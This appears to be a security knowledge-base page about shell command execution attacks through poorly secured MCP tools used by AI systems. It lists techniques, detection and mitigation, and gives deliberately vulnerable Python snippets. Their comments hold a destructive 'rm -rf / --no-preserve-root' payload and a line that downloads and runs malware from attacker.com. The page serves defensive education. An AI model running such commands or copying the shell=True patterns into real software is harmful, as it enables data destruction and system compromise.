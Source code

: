 ```yaml
---
layout: default
title: "Shell Command Execution"
permalink: /ttps/command-injection/shell-command-execution/
nav_order: 5
parent: "Command & Code Injection"
grand_parent: "MCP Security TTPs"
---
```


# Shell Command Execution

**Category**: Command & Code Injection  
**Severity**: Critical  

## Description

Direct execution of shell commands through poorly secured MCP tools, enabling attackers to execute arbitrary shell commands and scripts on the target system.

## Technical Details

### Attack Vector
- Direct shell command execution
- Shell script injection
- Command line manipulation
- Shell environment exploitation

### Common Techniques
- Shell command chaining
- Script injection
- Shell metacharacter abuse
- Environment variable manipulation

## Impact

- **Shell Access**: Direct access to system shell
- **Command Execution**: Ability to run any shell command
- **Script Execution**: Ability to execute shell scripts
- **System Control**: Control over system through shell access

## Detection Methods

### Shell Monitoring
- Monitor shell process creation
- Track shell command execution
- Detect unusual shell activity
- Monitor shell script execution

### Command Analysis
- Analyze shell command patterns
- Monitor command line arguments
- Track shell metacharacter usage
- Detect command injection patterns

## Mitigation Strategies

### Shell Security
- Restrict shell access
- Use shell command filtering
- Implement shell sandboxing
- Monitor shell activity

### Command Controls
- Use command allow-lists
- Implement command validation
- Deploy shell restrictions
- Monitor command execution

## Real-World Examples

### Example 1: Direct Shell Command
```python
def run_system_command(command):
    # Vulnerable shell command execution
    result = subprocess.run(command, shell=True, capture_output=True)
    
    # Attack: command = "rm -rf / --no-preserve-root"
    # Executed: rm -rf / --no-preserve-root
```

### Example 2: Shell Script Injection
```python
def execute_script(script_content):
    # Vulnerable script execution
    with open('/tmp/script.sh', 'w') as f:
        f.write(script_content)
    os.system('bash /tmp/script.sh')
    
    # Attack: script_content = "#!/bin/bash\nwget http://attacker.com/malware.sh | bash"
    # Executed: Downloads and executes malware
```

### Example 3: Shell Environment Manipulation
```python
def run_with_env(command, env_vars):
    # Vulnerable environment variable usage
    env = os.environ.copy()
    env.update(env_vars)
    subprocess.run(command, shell=True, env=env)
    
    # Attack: env_vars = {"PATH": "/tmp:$PATH"} with malicious binaries in /tmp
    # Executed: Commands execute malicious versions from /tmp
```

## References & Sources

- **Strobes Security** - "MCP and Its Critical Vulnerabilities"
- **Simon Willison** - "Model Context Protocol has prompt injection security problems"

## Related TTPs

- [Command Injection](command-injection.md)
- [OS Command Injection](os-command-injection.md)
- [Code Injection](code-injection.md)

---

*Shell command execution represents a direct path to system compromise through unrestricted shell access.*